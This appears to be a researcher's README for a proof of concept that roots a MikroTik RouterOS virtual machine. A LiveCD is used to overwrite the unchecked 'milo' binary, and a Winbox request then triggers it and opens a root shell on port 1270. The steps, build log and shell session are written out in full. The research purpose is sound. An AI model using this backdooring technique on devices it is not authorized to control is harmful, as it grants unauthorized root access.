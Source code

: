 # Execute Milo

Since 6.46.1, MikroTik has done a lot of work to remove the various backdooring and persistence techniques that I (and others) have used. Every last one that I presented at Defcon 2019 have been patched up. Ultimately, that's great for MikroTik users. The system is so much more hardened than when I first encountered it two years ago. /bin/sh is even a dead symlink! Truly an impressive turnaround. But...

I still want root so I can continue doing research. As such, I've found a simple way to root virtual machines again. MT will almost certainly patch this in due course, so enjoy it while it lasts.

## Step 0 - An observeration

As discussed elsewhere, when booting via a LiveCD you can easy access to the /flash/ filesystem. MikroTik has left a binary in /flash/bin/ called "milo". We can overwrite this binary and RouterOS doesn't complain on a reboot, so there is no integrity checks on.

Furthermore, milo does get executed. However, it appears only via user request over the Winbox protocol. Sending a "SET" request to sys2 handler 10 with a couple of boolean values will get the milo executed. So... what do?

## Step 1 - Installation
Install RouterOS in a VM using the .iso image.

## Step 2 - Get an IP Address
Enable DHCP or set it statically. I don't care.

```
ip dhcp-client add disable=no interface=ether1
ip dhcp-client print
```

## Step 3 - Drop binaries via FTP
Move to the vm_bins directory (/routeros/poc/execute_milo/vm_bins) and ftp to your VM. Then put milo, busybox, and gdb.

```
albinolobster@ubuntu:~/routeros/poc/execute_milo/vm_bins$ ftp 192.168.88.29
Connected to 192.168.88.29.
220 MikroTik FTP server (MikroTik 6.46.3) ready
Name (192.168.88.29:albinolobster): admin
331 Password required for admin
Password:
230 User admin logged in
Remote system type is UNIX.
ftp> put busybox 
local: busybox remote: busybox
200 PORT command successful
150 Opening ASCII mode data connection for 'busybox'
226 ASCII transfer complete
2139496 bytes sent in 0.12 secs (16.8171 MB/s)
ftp> put milo
local: milo remote: milo
200 PORT command successful
150 Opening ASCII mode data connection for 'milo'
226 ASCII transfer complete
610401 bytes sent in 0.06 secs (9.8214 MB/s)
ftp> put gdb
local: gdb remote: gdb
200 PORT command successful
150 Opening ASCII mode data connection for 'gdb'
226 ASCII transfer complete
5539399 bytes sent in 0.26 secs (19.9693 MB/s)
ftp> quit
221 Closing
```

## Step 4 - Reboot into a LiveCD
Pop a LiveCD into your VM's CD drive. I use CentOS-6.10-i386-LiveDVD.iso. Then use CD/DVD as the startup disk and reboot.

## Step 5 - Make executable and move files
Mount the RouterOS filesystems (technically you only need to mount one). Find the filesystem that contains bin, boot, etc, rw, and var in the top directory. Become root. Do the following:

```
cd rw/disk/
chmod +x busybox
chmod +x gdb
chmod 755 milo
mv milo ../../bin/milo
ln -s /rw/disk/busybox ash
exit
```

reboot into RouterOS

## Step 6 - Build and execute execute_milo
Move up from the vm_bins directory, create a build directory, and invoke cmake and make.

```
albinolobster@ubuntu:~/routeros/poc/execute_milo/vm_bins$ cd ..
albinolobster@ubuntu:~/routeros/poc/execute_milo$ mkdir build
albinolobster@ubuntu:~/routeros/poc/execute_milo$ cd build/
albinolobster@ubuntu:~/routeros/poc/execute_milo/build$ cmake ..
-- The C compiler identification is GNU 8.3.0
-- The CXX compiler identification is GNU 8.3.0
-- Check for working C compiler: /usr/bin/cc
-- Check for working C compiler: /usr/bin/cc -- works
-- Detecting C compiler ABI info
-- Detecting C compiler ABI info - done
-- Detecting C compile features
-- Detecting C compile features - done
-- Check for working CXX compiler: /usr/bin/c++
-- Check for working CXX compiler: /usr/bin/c++ -- works
-- Detecting CXX compiler ABI info
-- Detecting CXX compiler ABI info - done
-- Detecting CXX compile features
-- Detecting CXX compile features - done
-- Boost version: 1.67.0
-- Found the following Boost libraries:
--   program_options
--   system
--   regex
-- Configuring done
-- Generating done
-- Build files have been written to: /home/albinolobster/routeros/poc/execute_milo/build
albinolobster@ubuntu:~/routeros/poc/execute_milo/build$ make
Scanning dependencies of target execute_milo
[ 16%] Building CXX object CMakeFiles/execute_milo.dir/src/main.cpp.o
[ 33%] Building CXX object CMakeFiles/execute_milo.dir/home/albinolobster/routeros/common/md5.cpp.o
[ 50%] Building CXX object CMakeFiles/execute_milo.dir/home/albinolobster/routeros/common/session.cpp.o
[ 66%] Building CXX object CMakeFiles/execute_milo.dir/home/albinolobster/routeros/common/winbox_session.cpp.o
[ 83%] Building CXX object CMakeFiles/execute_milo.dir/home/albinolobster/routeros/common/winbox_message.cpp.o
[100%] Linking CXX executable execute_milo
[100%] Built target execute_milo
albinolobster@ubuntu:~/routeros/poc/execute_milo/build$
```

Execute the compiled binary "execute_milo" - it requires the VM's ip address, the winbox port (8291 by default), the admin username (admin), and the admin password (empty by default). Example:

```
albinolobster@ubuntu:~/routeros/poc/execute_milo/build$ ./execute_milo -i 192.168.88.29 -u admin
[+] Connecting...
[+] Successful login
[+] Successfully executed milo
albinolobster@ubuntu:~/routeros/poc/execute_milo/build$
```

## Step 7 Done
Congrats, you should have a root shell on port 1270.

```
albinolobster@ubuntu:~/routeros/poc/execute_milo/build$ telnet 192.168.88.29 1270
Trying 192.168.88.29...
Connected to 192.168.88.29.
Escape character is '^]'.

/ # uname -a
Linux MikroTik 3.3.5-smp #1 SMP Tue Jan 28 10:51:45 UTC 2020 i686 GNU/Linux
/ # cat /rw/logs/VERSION 
v6.46.3 Jan/28/2020 10:46:05
/ # 
```

## SHASum

albinolobster@ubuntu:~/routeros/poc/execute_milo/vm_bins$ sha1sum busybox 
7d3485b2c75bc03ece720ea91f9cf61146e7b27c  busybox
albinolobster@ubuntu:~/routeros/poc/execute_milo/vm_bins$ sha1sum gdb
1d939b2c8d615e8708159854162e5bd5564b5a68  gdb
albinolobster@ubuntu:~/routeros/poc/execute_milo/vm_bins$ sha1sum milo
8ca32f731662cec4ad384e88e0859d19797143cf  milo

